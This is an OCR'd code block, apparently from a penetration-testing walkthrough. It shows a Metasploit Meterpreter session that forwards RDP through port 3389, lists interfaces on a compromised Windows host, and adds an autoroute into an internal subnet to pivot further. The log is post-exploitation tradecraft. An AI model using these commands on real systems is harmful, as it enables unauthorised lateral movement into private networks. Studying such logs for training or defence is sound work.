 ```code
1 0.0.0.0:3389 x.x.x.x:3389 Forward
1 total active port forwards.

root@xxxx:/# rdesktop 127.0.0.1:3389 Autoselected keyboard map en-us
Failed to negotiate protocol, retrying with plain RDP.
WARNING: Remote desktop does not support colour depth 24; falling back to 16

meterpreter > run autoroute -h

[*] Usage: run autoroute [-r] -s subnet -n netmask
[*] Examples:
[*] run autoroute -s 10.1.1.0 -n 255.255.255.0 # Add a route to
10.10.10.1/255.255.255.0
[*] run autoroute -s 10.10.10.1 # Netmask defaults to 255.255.255.0
[*] run autoroute -s 10.10.10.1/24 # CIDR notation is also okay
[*] run autoroute -p # Print active routing table
[*] run autoroute -d -s 10.10.10.1 # Deletes the 10.10.10.1/255.255.255.0 route
[*] Use the "route" and "ipconfig" Meterpreter commands to learn about available routes
[-] Deprecation warning: This script has been replaced by the post/windows/manage/autoroute module

meterpreter > ifconfig

Interface 1

============
Name : MS TCP Loopback interface
Hardware MAC : 00:00:00:00:00:00
MTU : 1520
IPv4 Address : 127.0.0.1

Interface 2

============

Name : Broadcom NetXtreme Gigabit Ethernet - McAfee NDIS Intermediate Filter Miniport
Hardware MAC : 00:11:25:40:77:8f
MTU : 1500
IPv4 Address : 10.23.255.3 IPv4 Netmask : 255.255.255.0

meterpreter > run autoroute -s 10.23.255.3 -n 255.255.255.0

[*] Adding a route to 10.23.255.3/255.255.255.0...
[+] Added route to 10.23.255.3/255.255.255.0 via 61.57.243.227
[*] Use the -p option to list all active routes

meterpreter > run autoroute -p

Active Routing Table

====================

Subnet Netmask Gateway
------ ------- -------
10.23.255.3 255.255.255.0 Session 3

meterpreter > ifconfig

Interface 1

============

Name : MS TCP Loopback interface
Hardware MAC : 00:00:00:00:00:00
```